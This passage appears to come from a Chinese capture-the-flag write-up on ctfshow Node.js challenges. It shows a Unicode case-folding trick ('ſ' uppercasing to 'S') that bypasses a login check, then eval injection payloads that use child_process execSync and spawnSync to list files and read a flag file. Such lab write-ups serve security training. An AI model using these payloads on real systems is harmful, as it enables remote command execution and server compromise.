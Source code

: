 ```js
      if(err){
        return res.json({ret_code: 2, ret_msg: '登录失败'});        
      }
       
      req.session.loginUser = user.username;
      res.json({ret_code: 0, ret_msg: '登录成功',ret_flag:flag});              
    });
  }else{
    res.json({ret_code: 1, ret_msg: '账号或密码错误'});
  }  
  
});

module.exports = router;

```

要以账户ctfshow，密码123456登录
考察的地方是

```
toUpperCase()是javascript中将小写转换成大写的函数。
toLowerCase()是javascript中将大写转换成小写的函数
除此之外
在Character.toUpperCase()函数中，字符ı会转变为I，字符ſ会变为S。
在Character.toLowerCase()函数中，字符İ会转变为i，字符K会转变为k。
```

详细看：[Fuzz中的javascript大小写特性 | 离别歌 (leavesongs.com)](https://www.leavesongs.com/HTML/javascript-up-low-ercase-tip.html)
那么输入ctfſhow 123456即可

## 335 rce

f12提示`<!-- /?eval= -->`

直接执行命令即可

chile_process.exec调用的是/bash.sh，它是一个bash解释器，可以执行系统命令
用`child_process`模块的`exec`和`execSync`或者`spawn`与`spawnSync`

```js
/?eval=require('child_process').execSync('ls').toString()
/?eval=require('child_process').execSync('cat fl00g.txt').toString()
```

```js
require('child_process').spawnSync('ls',['./']).stdout.toString()
require('child_process').spawnSync('cat',['fl00g.txt']).stdout.toString()
```

还可以用这个：

```js
global.process.mainModule.constructor._load('child_process').execSync('ls',['.']).toString()
```
